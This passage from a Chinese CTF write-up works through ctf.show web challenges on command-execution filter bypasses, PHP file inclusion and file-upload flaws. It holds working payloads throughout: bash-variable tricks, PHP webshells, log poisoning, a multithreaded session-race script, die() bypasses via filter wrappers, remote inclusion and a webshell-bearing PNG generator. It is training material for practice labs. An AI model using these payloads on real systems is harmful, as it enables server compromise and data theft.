再随便上传一个txt文件，用bp抓包，在重发器中构造payload：


```
“#!/bin/sh” 这一行被称为 “shebang” 行。
它的作用是告诉操作系统，这个脚本应该使用 /bin/sh 这个解释器来执行。
```

提交拿到flag

**第二种**方法——数字没有过滤，可以采用bin目录下的base64命令：

/bin/base64的主要作用是对数据进行Base64编码或解码

```
使用方法：/bin/base64 filename
```

这个命令会将filename文件的内容进行Base64编码，并将结果输出 :

```
?c=/???/????64 ????.???
```

*意思为：?c=/bin/base64 flag.php*

拿到flag.php的base64编码


解码拿到flag

**第三种**方法——使用/usr/bin/bzip2 对文件进行压缩:

```
?c=/???/???/???2 ????.???
```

意思为：?c=/usr/bin/bzip2 flag.php

最后访问/flag.php.bz2即可
下载下来的压缩包中包含有flag.php


#### web56


这里过滤了数字，但是web55的方法一还是可以用的，但不知道为什么这题加上shebang行我执行不了，得去掉才行


#### web57


题目说`flag in 36.php`，即只需构造出36即可，题目给我们留下了`$`符号，表示可以使用变量

```
 在linux中
$(())=0
~$(())=-0
$((~$(())))=-1
$((~$(())))$((~$(())))=-1-1
$(($((~$(())))$((~$(())))))=-2
$((~$(($((~$(())))$((~$(())))))))=1
这里也可以用加号直接加
```

如此将多个-1相加到-37再加一层`$(())`取反即可构造出36

payload：

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

注意：这里cat得到的flag藏在源码中


#### web118

这题不同于前面的题，打开URL是一个输入框，而不是之前那种给源码的，随便输入一些东西执行显示`evil input`


使用 burpsuite 抓包发现是`system()`的命令执行，进行单个字符的模糊测试 fuzz，发现过滤掉了数字和小写字母以及一些符号

题目提示下有一张图片


结合题目提示：flag 在 flag.php

推断需要采用Linux内置变量来构造命令读取

在Linux中有很多内置变量，可以用来构造命令：

```
（1）$BASH
描述：指向当前使用的Bash解释器的路径。
示例：/bin/bash
用途：用于确定正在使用的Bash版本和路径。

（2） $PATH
描述：存储一系列路径，这些路径用于查找可执行文件，当你在命令行中输入命令时，系统会在这些路径中查找对应的可执行文件。
示例：/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
用途：影响命令的查找和执行，可以添加自定义脚本或程序的路径。

（3）$HOME
描述：当前用户的主目录路径。
示例：/home/username
用途：表示当前用户的主目录，通常用于存储用户配置文件和个人数据。

（4）$PWD
描述：当前工作目录（Present Working Directory）。
示例：/home/username/projects
用途：表示当前的工作目录路径，常用于脚本和命令中获取或显示当前目录。

（5）$USER
描述：当前登录的用户名。
示例：username
用途：表示当前用户的名称，常用于显示或检查用户信息。

（6）$SHELL
描述：当前用户的默认shell。
示例：/bin/bash
用途：表示用户登录时使用的默认shell路径。

（7）$UID
描述：当前用户的用户ID。
示例：1000（普通用户），0（root用户）
用途：标识当前用户的唯一ID。

（8）$IFS
描述：内部字段分隔符（Internal Field Separator），用于分割输入的字段，默认为空格、制表符和换行符。
示例：默认值为<space><tab><newline>
用途：影响脚本中的字段分割，常用于处理输入和解析文本。
```

以$PWD为例，在虚拟机中尝试：


接下来我们需要知道 Bash 变量的切片，与 python 的切片类似，目的还是从指定位置开始提取子字符串，用法：${VAR:offset:length}，例子：


ps：如果只填一个参数，会默认从指定的位置开始提取到字符串的末尾

波浪号的效果：从结尾开始取


至此，可以在虚拟机中尝试构造一个ls：


在题目中过滤了数字，可以使用大写字母绕过，发现任意大写字母与数字0等效

所以我们可以利用`$PWD`和`$PATH`来构造`nl`，结合问号来读取`flag.php`：

```
${PATH:~Q}${PWD:~Q} ????.???
```

执行后回显


直接查看网页源代码拿到flag


#### web119

进入页面和上题一样，尝试使用上题的方法回显`evil input`

看wp说是`PATH`和`BASH`被过滤了

- b站的wp：

> 提到了三个有意思的环境变量：
>
> PHP_CFLAGS=-fs**tac**k-protector-strong -fpic -fpie -02 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
>
> PHP_VERSION=7.3.22
>
> SHLVL=1(这个说是深度的意思，默认是1)


可以发现`PHP_CFLAGS`中有`tac`，而且在第三位，而恰巧`PHP_VERSION`里面有3，于是可以尝试构造:

```
${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}      ------>3
${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}}      ------>tac
payload：
${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}} ????.???
```

- 题目给的payload：

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

- 网上查的：

介绍一个内置变量：`$RANDOM`

它会生成一个随机数，长度一般是 4 位或者 5 位，在前面加井号的话我们可以得到 4 或者 5 。

那么我们就可以构造出 /bin/base64 去读取 flag.php，主要就是构造出 / 和 4，其他使用通配符。

构造 /bin/base64 flag.php，payload：

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

其中`${PWD::${#SHLVL}}` 就等同于斜杠 /，由于`${#RANDOM}` 的值可能是 4 或者 5 ，所以可能需要多试几次

得到结果进行base64解码即可拿到flag

---

还有一种方法，在bin目录下是有cat命令的，我们可以尝试构造：

```
${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t
```

构造payload：

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

拿到flag


#### web120

打开是一串源码，其实就是前面两题的源码加点东西


注意到code的长度不可以超过65，这需要我们注意构造的命令长度

考虑构造`/bin/base64 flag.php`：

```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

多试几次拿到base64的flag

题目给的payload是

```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

`${USER:~A}`执行是a

符合条件的有以下命令


猜测上面构造的是cat或tac


#### web121


`SHLVL`被过滤了，需要想办法构造出1

可以使用 \${##} 或者 ${#?} 代替：


> 通过`$?`来实现的，`$?`是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

```
code=${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

拿到flag

题目给的payload构造的是`rev`，`${#IFS}` 是 3 ：

```
code=${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
```


#### web122


`PWD USER #`这些也被过滤掉了

可以使用`${HOME::$?}`来构造`/`，井号没了，后面使用`RAMDOM`随机数变量随机生成了一个 4 至 5 位数，然后取随机数的第一位，当随机数的第一位为 4 即可匹配到 base64

题目给的payload：

```
payload:code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
#可能存在成功的机会，不断刷新
```

需要多试几次


---

## 文件包含

####  web78


参考web37，先读目录：

```
?file=data://text/plain,<?php system("ls");?>
```

拿到`flag.php`


直接读：

```
?file=data://text/plain,<?php system("cat flag.php");?>
```


另外可以用php伪协议，用 php://filter 读文件（flag.php）的源码：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

也可以换一种编码方式输出，这样就不用再对结果进行 base64 解码了：

```
?file=php://filter/convert.iconv.utf8.utf16/resource=flag.php  
```

还可以使用`php://input `：

```
URL/?file=pHp://input
POST:
<?php phpinfo()?>
```

执行成功，后面正常读取即可


#### web79


将payload中的`php`全部换成了问号，使用base64：

> 用法：`data://text/plain;base64,[Base64编码后的代码]`

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

拿到flag

 看别人的wp发现一个很有意思的payload：

```
?file=data://text/plain,<?=`tac flag.php`;
说明： <?= 是 echo() 的别名用法
```

另外还可以用大小写绕过（）


#### web80


使用

```
URL/?file=pHp://input
POST:
<?php phpinfo()?>
```

即可

题目的提示是

> 包含日志文件 进行getshell 日志文件路径： ?file=/var/log/nginx/access.log

读取此日志文件：

```
?file=/var/log/nginx/access.log
```

中间件的日志文件会保存网站的访问记录,比如HTTP请求行,User-Agent,Referer等客户端信息，如果在HTTP请求中插入恶意代码,那么恶意代码就会保存到日志文件中,访问日志文件的时候，日志文件中的恶意代码就会执行,从而造成任意代码执行甚至获取shell。

从日志信息可以看出是 User-Agent 的内容，我们在 User-Agent 里插入一句话木马进行提交 ：

```
<?php @eval($_POST['1']);?>
```

访问日志文件，调用木马：

```
POST:
1=system('tac fl0g.php');
```


#### web81


上一题日志包含方法即可


#### web82


在前面的基础上过滤了`.`，这意味着只能包含无后缀的文件，在php中，能控制无后缀的文件只有session

题目提示：利用 session 对话进行文件包含，通过条件竞争实现。

> **条件竞争原理：当我们成功上传了php文件，服务端会在短时间内将其删除，我们需要抢在它删除之前访问文件并生成一句话木马文件，所以访问包的线程需要大于上传包的线程。**

**说一下这道题的利用点：**

**我们在 Cookie 里设置了 PHPSESSID=test，PHP 将会在服务器上创建一个文件：/tmp/sess_test，但是对于默认配置 session.upload_progress.cleanup = on，文件上传后 session 文件内容会立即被清空，我们需要通过条件竞争，在服务器还未来得及删除我们上传的session 文件内容前，成功访问包含到该文件，实现恶意代码的命令执行。**

这里还要用到`PHP_SESSION_UPLOAD_PROGRESS`参数用于获取实时文件上传进度，在网上抄了一个文件上传的html脚本：

```
<!DOCTYPE html>
<html>
<body>
<form action="https://84202b35-60d0-4bd2-bee2-781631694f2c.challenge.ctf.show//" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('ls'); ?>" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
<?php
session_start();
?>
```

上传用 burpsuite 抓包，抓到后发给攻击模块

按照前面说的利用点，我们需要对 Cookie 进行添加：PHPSESSID=aaa，并写入`system(ls)`


接下来就是条件竞争的设置，这里不涉及什么参数的爆破，因此清空掉 $,payload 选择 null（也就是没有），并且勾选上无限重复


线程设置为30，之后开始攻击，我们就会不断的上传一个包含了恶意代码的文件

回到题目所在页面，我们需要再抓一个**访问包**，访问的文件是上面我们自定义的，这里是：

```
?file=/tmp/sess_aaa
```

前面说了，我们在 Cookie 里设置了 PHPSESSID=aaa，PHP 将会在服务器上创建一个文件：/tmp/sess_aaa。

使用 burpsuite 抓包：


也是跟上面一样的操作，只是线程数设为80，注意一点，**访问包的线程数需要大于上传包的线程数**

之后也开始攻击，我们就会不断去访问是否存在文件/tmp/sess_exp

一旦在服务器还未来得及删除我们上传的文件，而被我们成功访问时，根据题目的 php 代码，就会将该文件包含，进而执行我们的恶意代码。

一边不停地上传，一边不停地访问，之所以可以访问到，是因为我们访问的线程数更大

过会筛选长度就可以找到长度不一样条件竞争成功的包


修改上传包的 payload，读取 fl0g.php：


成功读到：


也可以用直接做：

```
import io 
import requests
import threading

sessid="wi"
url="http://77a3c121-d697-439f-aeba-fed139ce44d0.challenge.ctf.show/"

def write(session):
    while event.isSet():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac fl0g.php');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.isSet():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if 'wi.txt' in r.text:
            print(r.text)
            event.clear()
        else :
            print("nonono")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()
```


#### web83


新增两个函数：

```
session_unset();
session_destroy();
```

两者都是 PHP 中与会话（session）管理相关的函数，用于清除和销毁会话数据。

> session_unset():
>
> 作用: 清空当前会话中的所有变量。
>
> 使用场景: 当你希望保留会话但清除会话中的数据时使用。例如，你可能想让用户保持登录状态，但重置会话中的特定数据。
>
> session_destroy():
>
> 作用: 完全销毁会话，包括会话数据和会话ID。
>
> 使用场景: 当你希望用户完全登出或结束会话时使用。例如，用户点击“注销”按钮时，通常会调用此函数。

总结：

session_unset()只是清空会话变量，但会话仍然存在。
session_destroy()完全销毁会话，包括会话数据和会话ID。
两者常常一起使用，以确保会话数据被清除，并确保会话本身被销毁

这两个函数对于我们这里的条件竞争影响不大，用上面的脚本就行


#### web84


新增 `system("rm -rf /tmp/*");` 删除我们上传的文件，其实 `session.upload_progress.cleanup = on` 本身就会进行清空，所以这里对我们利用影响不大。

继续用脚本即可


#### web85


新增

```
    if(file_exists($file)){
        $content = file_get_contents($file);
        if(strpos($content, "<")>0){
            die("error");
        }
```

`file_get_contents()` 函数将会读取文件的全部内容并将其作为字符串返回，`strpos($content, "<")` 查找字符串 `$content` 中首次出现字符 < 的位置，如果其位置索引大于 0，则会停止执行并输出 error 信息。

对我们条件竞争不影响，沿用上面的脚本即可


#### web86


新增：

```
define('还要秀？', dirname(__FILE__));
set_include_path(还要秀？);
```

代码解释：

`define()` 函数用于定义一个常量。在这里，它定义了一个名为` 还要秀？` 的常量。
`dirname(__FILE__)` 返回当前文件所在的目录路径。`__FILE__` 是一个**魔术常量**，表示当前文件的完整路径和文件名，而`dirname(__FILE__) `则获取当前文件的目录部分。
因此，这行代码将当前文件的目录路径赋值给名为 `还要秀？` 的常量。

`set_include_path`() 函数用于设置 PHP 包含文件的搜索路径，在这里，它将包含路径设置为` 还要秀？` 这个常量的值，即当前文件的目录路径。

设置 PHP 的包含路径为当前文件的目录路径。这样在后续代码中使用 `include()`  时，可以省略文件的完整路径，只需提供文件名。

当使用 `include()、require()、include_once() 或 require_once() `时，如果提供的路径既不是绝对路径也不是相对路径，PHP 会首先在 `include_path` 设置的目录中查找文件。

我们条件竞争进行包含的文件是一个完整路径，即 `/tmp/sess_exp`，因此不影响，继续用脚本


#### web87


除了替换，新增 `file_put_contents` 函数，将会往 `$file` 里写入 `<?php die('大佬别秀了');?> `和我们 post 传入的 `$content` 内容。

由于 $content 参数可控，因此可以写入恶意的 php 代码或者一句话木马，但是 `<?php die('大佬别秀了');?>` 这段 PHP 代码它会立即终止脚本执行并输出消息 "大佬别秀了"，因此还需要绕过这个` die() `函数。

这里 url 传入的内容本身会进行一次 url 解码，题目中还使用了一个 urldecode 函数，因此 file 传入的内容需要先经过两次 url 编码再传入。

有两个方法：

- rot13编码：

`<?php die('大佬别秀了');?>` 经过 rot13 编码会变成 `<?cuc qrv(); ?>`，如果 php 未开启短标签，则不会认识这段代码，也就不会执行。

file 传入 `php://filter/write=string.rot13/resource=2.php`

两次 url 编码：

```
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%32%65%25%37%30%25%36%38%25%37%30
```

将命令执行语句进行 rot13 解码后POST传入：

```
<?cuc flfgrz("yf");?>
```

 

该内容经过 rot13 编码就会变回正常的命令执行语句

后续直接rce即可

延申解释一下，对进行rot13编码后的内容进行编码是可以拿回原内容的


在文件包含的语句中加入rot13，die语句则会被编码，如上面所说：`如果 php 未开启短标签，则不会认识这段代码，也就不会执行`，所以可以绕过，在别人用一句话木马做的wp中可以看见：


- base64编码：

Base64 编码仅包含 64 个可打印字符，即 A-Z、a-z、0-9、+ 和 /。在 PHP 中，当使用 base64_decode 函数解码一个字符串时，如果字符串中包含不在 Base64 字符集中的字符，这些字符将被跳过，只解码合法的 Base64 字符。

题目中 $content 被加上了 `<?php die('大佬别秀了');?> `，我们可以使用 `php://filter/write=convert.base64-decode` 先对其进行解码，在解码过程中，字符` <、?、空格、(、'、)、;、>`，这些字符不符合 base64 编码的字符范围都将先被移除，最终剩下的用于解码的字符只有 phpdie 和我们 post 传入的内容。

由于 Base64 解码是以 4 个字符为一组进行的，这里移除后只剩下 6 个字符，因此我们随便加两个合法字符补全，让其 base64 解码成功，后面再继续传入经过 base64 编码的 payload，也可以被正常解码。

file的内容还是进行两次URL编码，

对一句话木马进行base64编码


还需要加两个合法字符让前面 base64 解码成功，这里多传入两个1。

post 传入：

```
content=11PD9waHAgQGV2YWwoJF9HRVRbJ2NtZCddKTs/Pg==
```

调用shell：

```
/shell.php?cmd=system('ls');
```

后续就是rce


#### web88


将php跟等号都过滤掉了，没有过滤冒号 `:` ，可以使用 data 协议，需对payload进行base64编码，对于`<?php system('ls');?>`发现如果后面有分号的话编码的结果会带有加号，会被过滤掉，而如果去掉分号编码得到`PD9waHAgc3lzdGVtKCdscycpPz4=`，传入时要把等号去掉，因为题目过滤掉了等号，否则会触发 die 函数，即使去掉等号，base64 解码也是 `<?php system('ls')?>`


 成功执行


后面正常rce即可，注意要将编码的等号去掉，payload：

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTs/Pg
```

另外也可以在rce语句中加点东西让base64编码出来的东西没有等于号和加号：

```
<?php system('tac *.php');echo 'abdc';?>aa
编码结果：
PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvICdhYmRjJzs/PmFh
```

也是可以正常执行的


#### web116

打开是一个视频，源码也看不了，提示：misc+lfi

下载视频，使用 **010editor**打开，发现存在 png 图片的数据


提取并另存为png文件，打开发现是一段代码


如果没有设置 file，那么默认就是 video/mp4，也就是前面看到的视频

以 get方式给 file 传参进行文件包含，猜测是 flag.php，payload：

```
?file=flag.php
```

浏览器里没有回显，用bp抓包重发拿到flag


也可以直接用 hackbar 将 mode 选择为 raw 进行请求，这样就和 burpsuite 一样 


#### web117


跟web87类似，但`rot13和base64`都被过滤了，则需要采用另外的编码方式：

把一句话木马从 UCS-2LE 编码转换为 UCS-2BE 编码：

```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
```

运行得到：

```php
?<hp pe@av(l_$EG[T]1;)>?
```

post 传入：

```php
contents=?<hp pe@av(l_$EG[T]1;)>?    
```

payload：

```
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```

之后调用 a.php：

```
/a.php?1=system('ls');
```

跟前面一样的道理，传入的一句话木马是先经过一遍编码转换的，之后又通过过滤器将其还原

而题目添加进去的 `<?php die();?>` 则会被过滤器转换成无法识别的文本内容，导致无法执行。

可以来[这里](https://www.php.net/manual/zh/mbstring.supported-encodings.php)查看支持的编码，一般来说写文件都是要用filter协议


---

## PHP特性

#### web89

提示代码为：

```
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

`preg_match`函数只能处理字符串，无法处理数组，若直接提交一个数组则会直接返回

则可以直接提交一个非空数组进行绕过：`/?unm[]=`

得到flag


---

## 文件上传

#### web151


打开网页发现要求上传一张png图片，尝试上传php文件

```
<?php

eval($_POST[1]);
?>
```

回显


题目提示`前台校验不可靠`，右键检查查看源码，发现一项限定了上传文件


直接将png改成php或删掉，再此上传php文件，成功上传

后续访问`/upload/上传文件名`rce即可，发现flag文件在上一级目录（`ls ../`拿到），后续读文件即可


#### web152


尝试使用上题方法回显


表示文件在后端经过了校验

对上传文件进行抓包，在重发器中修改`Content-Type`项，上传成功


后续rce即可，payload：

```
1=system('tac ../flag.php');
```


#### web153


使用上题方法回显


表示upload目录下存在一个`index.php`，这表示可以上传配置文件` .htaccess `（需要Apache）或者` .user.ini`


在`php.ini `配置选项列表中可以找到[auto_append_file](https://www.php.net/manual/zh/ini.core.php#ini.auto-append-file)，可自动包含文件，下面的[auto_prepend_file](https://www.php.net/manual/zh/ini.core.php#ini.auto-prepend-file)也是能用的

> **`auto_prepend_file` 的作用**
>
> `auto_prepend_file` 是 PHP 的一个配置指令，用于指定一个文件，该文件会在每个 PHP 脚本执行之前自动包含。
>
> - 当 PHP 解释器执行一个脚本时，会先检查 `auto_prepend_file` 的设置。
> - 如果 `auto_prepend_file` 指定了一个文件（例如 `1.txt`），PHP 会先加载并执行该文件中的代码，然后再执行主脚本。


则写一个`.user.ini`，内容为：


将前端代码改一下，然后抓包上传重发


改一下`Content-Type`，上传成功


再上传一个`1.txt`内容为`<?php eval($_POST[1]);?>`


回去访问`/upload`发现已经上传成功


后面就是正常rce了


#### web154


用前面的方法到上传txt时报错


尝试将`<?php eval($_POST[1]);?>`去掉发现可以正常上传

怀疑过滤了`php`，尝试使用短标签绕过`<?= eval($_POST[1]);?>`，成功上传


#### web155


上题方法就能过


#### web156


尝试用之前的方法，报错了，试了一下发现是`[]`被BAN了，可以用`{}`代替，注意这种方法在PHP 7.4中已被弃用，并在PHP 8.0中移除。

```
<?= eval($_POST{1});?>
```


成功上传


#### web157


试了一下发现是`;和{}`都被BAN了，可以使用`array_pop()`函数

```
<?= eval(array_pop($_POST)) ?>
```


上传成功

**为什么可以用`<?= eval(array_pop($_POST)) ?>`替代`<?= eval($_POST{1});?>`？**

`$_POST{1}` 是从 `$_POST` 数组中获取键为 `1` 的值。

- 假设 `$_POST` 数据为：

	```
	Array
	(
	    [1] => "echo 'Hello';"
	)
	```

- `$_POST{1}` 的值是 `"echo 'Hello';"`。

- `eval($_POST{1})` 会执行 `echo 'Hello';`，输出 `Hello`。

`array_pop()` 是 PHP 的一个数组函数，用于删除并返回数组的最后一个元素

- 假设 `$_POST` 数据为：

	```
	Array
	(
	    [0] => "echo 'Hello';"
	)
	```

- `array_pop($_POST)` 会删除并返回 `"echo 'Hello';"`。

- `eval(array_pop($_POST))` 会执行 `echo 'Hello';`，输出 `Hello`。

故**`$_POST` 本身是一个数组，`array_pop()` 可以直接操作这个数组，而无需关心具体的键名**。`array_pop($_POST)` 不需要指定键名，它会自动获取数组的最后一个元素。如果 `$_POST` 的结构发生变化（例如键名不再是 `1`），`array_pop($_POST)` 仍然可以正常工作，而`$_POST{1}` 可能会失效。


#### web158

上题方法即可


#### web159

还是先传配置文件，在前面的基础上将`()`过滤了，就要考虑日志包含了

`1.txt`的内容改为

```
<?= include '/var/lo'.'g/nginx/access.lo'.'g'  ?>
```

读日志文件（log是被过滤掉的，所以要用此方法绕过）


访问`/upload/`（后面的斜杠一定要加），成功读取


后面直接在UA里面插入一句话木马即可

还有一种方法是将`1.txt`内容改为

```
<?= `tac ../f*`; ?>
```

直接传入

反引号在 PHP 中可以执行系统命令，类似于 `shell_exec()`。


#### web160

过滤了空格和反引号

上传了配置文件后，在`1.txt`中输入

```
<?=include1'/var/lo'.'g/nginx/access.lo'.'g'?>
```

在hex中将1的`31`换成`0d`，然后发送即可

这里还有一种方法是使用 php://filter 读取 flag.php 的源码，使用拼接绕过关键字的过滤。

在`1.txt`传入

```
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.p"."hp"?>
```


#### web161

尝试上传配置文件失败，在前面加`GIF89a`上传成功


上传成功后用伪协议读文件即可


访问`upload`目录base64解码拿到flag


通过蚁剑访问`upload.php`可以发现里面有个`getimagesize()`函数，用`GIF89a` 可以绕过判断


#### web162

上传配置文件失败，测试是点被过滤掉了

可以在配置文件中上传一个不含点的文件（这里直接是11）


上传成功

但是后面上传11的时候就只能用远程文件包含了，这里需要include一个外部URL，实际上远程包含的就是一个 php 文件，由于点被过滤了，要将ip转为长整型的地址。[在线ip转int,ip转数字-BeJSON.com](https://www.bejson.com/convert/ip2int/) 


这里需要在服务器终端中运行

```
python -m http.server 端口号
```

开启http服务，在当前目录创建个木马文件，浏览器中访问 `1.94.184.243:端口号/木马文件`可以正常下载


上传成功，访问upload目录写入成功


后续rce即可


#### web163

尝试使用上题的方法，上传没有问题，但是访问upload目录时回显这个


上传的文件被删掉了，直接在配置文件里包含URL：


发送后访问upload目录上传成功，rce即可（那之前为啥不直接这样）


#### web164

用上题的方法上传配置文件失败了，回到网页尝试上传图片发现可以查看


点开发现有图片包含点


可以利用二次渲染进行图片包含

**二次渲染漏洞原理**

> 在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。

这题要求上传的是png文件，可以了解一下其格式结构：

```
PNG（Portable Network Graphics）是一种无损压缩的图像格式，其文件结构是以块（chunk）为单位来组织的。每个块都有特定的功能，标准的 PNG 文件由以下关键块组成：

IHDR（Image Header）：图像头部块，定义图像的基本属性（如宽度、高度、颜色深度等）。
IDAT（Image Data）：图像数据块，包含实际的图像像素信息。
IEND（Image End）：图像结束块，表示图像文件的结束。
其他可选的块，如 tEXt（用于存储文本注释），pHYs（存储图像物理维度），以及 PLTE（调色板）等。
在正常情况下，PNG 文件必须符合一定的标准和格式要求，否则大多数 PNG 解析器会拒绝加载或渲染该文件。也就是说，我们想要手工插入恶意代码且不损坏图像文件，几乎不可能
```

这里操纵的是IDAT块

利用脚本可以生成一张符合需求的png图片：

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');
?>
```

生成图片后利用bp进行上传，值得一提的是如果抓的是*查看图片*的包的话需要加入请求头：

```
Content-Type: application/x-www-form-urlencoded
```


（木马的内容是`<?=$GET_[0]($POST_[1]);?>`所以这里这样写）

上传成功就可以进行rce了

**二次渲染漏洞的产生原因**

> 不同解析器的兼容性差异：不同的软件、浏览器或操作系统中的 PNG 解析库对图像的解析方式有所不同。例如，某些解析器可能对格式不规范的 PNG 文件宽容处理，而其他解析器则会严格遵循规范。当同一个 PNG 文件被不同软件解析时，可能会出现不同的渲染结果。
>
> 损坏文件的不同处理方式：一些 PNG 文件可能在结构上经过故意破坏（例如块顺序异常、块大小不一致或非法数据填充）。某些解析器会忽略这些问题继续渲染图像，而其他解析器可能会按照不同的规则处理，甚至放弃渲染。这种处理方式的差异可能导致同一个文件在不同环境下显示不同的图像内容。
>
> 利用非法块或多义性：PNG 文件中可能包含多义性块，或者包含了无效数据的块。不同的解析器在处理这些数据时可能会采取不同的操作路径。例如，一个图像头块 (IHDR) 的错误定义可能会导致某些解析器按错误的格式渲染图像，而其他解析器可能能识别并校正错误。

**PNG 二次渲染漏洞的典型利用方式**

> （1）篡改块内容或顺序： 攻击者可能会故意改变 PNG 文件中的块内容或块顺序，使得不同的解析器呈现不同的结果。比如：
>
> 在一个浏览器中，图像可能被正常显示；
> 而在另一个浏览器中，图像可能显示错误或者带有恶意内容（例如广告或攻击性内容）。
> 这种情况可能涉及块中的元数据或图像数据的篡改，造成渲染差异。
>
> （2）损坏的图像数据： 通过损坏或操纵 IDAT 块（图像数据块），攻击者可以在某些情况下影响图像的解压和显示效果。例如，PNG 图像的图像数据采用的是 zlib 压缩算法，不同的解压库可能对损坏数据的容忍度不同，导致渲染效果不同。
>
> （3）颜色管理和透明度问题： PNG 支持丰富的颜色深度和透明度通道。有时，通过故意操纵颜色通道数据（如 alpha 通道），攻击者可以使得某些渲染器显示不同的透明度效果。例如：
>
> 在某些浏览器中，图像可能会显示为透明；
> 在其他浏览器中，图像则可能不透明，甚至显示出攻击者隐藏的恶意图像。
> （4）文本注释块（tEXt）滥用： 某些 PNG 文件可能包含文本注释块 (tEXt)，这些注释通常包含元数据，但如果这些数据被故意操控，可能会在某些解析器中触发不同的行为（如展示错误或乱码）。此外，一些文本注释块可以包含恶意内容，如脚本注入，导致跨站脚本攻击（XSS）。


#### web165

尝试使用上题的方法


右键上传按钮检查发现要求上传jpg文件，在群里拿到适合这道题二次渲染的 jpg 图片：


B站wp的解法是先将原图片上传再将上传的经过渲染的图片另存为再用脚本插入木马

用大佬的php脚本处理：

```
  1<?php
  2    /*
  3
  4    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
  5    It is necessary that the size and quality of the initial image are the same as those of the processed image.
  6
  7    1) Upload an arbitrary image via secured files upload script
  8    2) Save the processed image and launch:
  9    jpg_payload.php <jpg_name.jpg>
 10
